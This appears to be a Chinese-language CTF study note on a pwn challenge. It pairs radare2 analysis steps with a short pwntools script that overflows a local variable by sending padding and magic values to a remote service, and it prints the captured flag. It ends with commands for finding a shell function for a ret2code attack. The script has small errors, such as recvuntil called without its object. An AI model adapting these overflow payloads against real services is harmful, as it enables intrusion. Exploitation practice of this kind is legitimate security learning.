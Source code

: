 
# 題目撰寫

## Buffover Overflow

### 張元\_Pwn-1(Bof-local-variable)

#### 先進到 Hello Hacker

- r2 ./[檔案 libc 的位置] | grep puts
- aa
- afl(可看到 main function)
- s main
- vv(從綠色的 call function 開始看)
- vim [py 檔]

```python=
from pwn import *

r = remote([ip位置],[port])
#or
#r = process('./[檔案]')

recvuntil('\n')
recvuntil('\n')

#停止動作(可以用來觀察)(實操不需要)
raw_input()

#12是需要填入多少個
#0xfaceb00c是文字，用p32轉字節串
#b'a'是將字串換成是字節串(同類型才能加)
r.sendline(b'a'*12 + p32(0xfaceb00c) + p32(0xdeadbeef) )

r.interactive()
```

- python3 exploit_luck.py
  > BreakALLCTF{apFGcJ7XRCfXhsdu5VZl}

#### 再到最後的區塊分析

- s 0x400a93(會看到%d，代表要讀一個整數)
- s main

---

## ret2code

- 三種方法
  - Shell
    `% objdump -M intel -d test | less`
  - gdb
    `gdb-peda$ p shell`
  - r2
    `[0x000005d0]> afl~shell`(~shell 是尋找有寫到 shell 的)
